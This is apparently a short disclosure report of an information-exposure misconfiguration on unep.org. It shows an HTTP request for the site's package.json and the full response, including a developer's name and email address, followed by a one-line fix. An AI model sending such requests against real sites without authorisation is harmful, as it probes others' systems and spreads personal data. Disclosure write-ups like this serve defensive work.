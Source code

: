 # Misconfiguration vulnerability on unep.org
* `Exploit Author:` **Nguyen Phu Hung (d4rkp0w4r)**
* Parameter & Payload
```c
https://www.unep.org/package.json
```
* Request
```python=
GET /package.json HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Host: www.unep.org
Connection: Keep-alive

```
* Response 
```python=
HTTP/1.1 200 OK
Date: Fri, 22 Jul 2022 18:32:20 GMT
Content-Type: application/json
Connection: keep-alive
last-modified: Wed, 20 Jul 2022 15:48:57 GMT
etag: W/"62d823e9-33a"
x-owner: dcpi
CF-Cache-Status: DYNAMIC
Expect-CT: max-age=604800, report-uri="https://report-uri.cloudflare.com/cdn-cgi/beacon/expect-ct"
Server: cloudflare
CF-RAY: 72ee4226789d4947-SIN
Original-Content-Encoding: br
Content-Length: 826

{
  "name": "unep",
  "version": "1.0.0",
  "description": "Dev package for UNEP using gulp",
  "main": "gulpfile.js",
  "scripts": {
    "test": "watch"
  },
  "keywords": [
    "unep"
  ],
  "author": "Gregory W Mwaura (gwanjama@gmail.com)",
  "license": "ISC",
  "devDependencies": {
    "autoprefixer": "^9.6.1",
    "cssnano": "^4.1.10",
    "gulp": "^4.0.2",
    "gulp-changed": "^4.0.0",
    "gulp-concat": "^2.6.1",
    "gulp-if": "^2.0.2",
    "gulp-imagemin": "^6.0.0",
    "gulp-livereload": "^4.0.1",
    "gulp-plumber": "^1.2.1",
    "gulp-postcss": "^8.0.0",
    "gulp-sass": "^4.0.2",
    "gulp-sourcemaps": "^2.6.5",
    "gulp-uglifyjs": "^0.6.2",
    "imagemin-pngquant": "^8.0.0"
  },
  "browserslist": [
    "last 2 versions",
    "ie >= 9",
    "android >= 4.4",
    "ios >= 7"
  ],
  "dependencies": {}
}

```
* How to fix this vulnerability.
* Remove or restrict access to all configuration files acessible from internet.
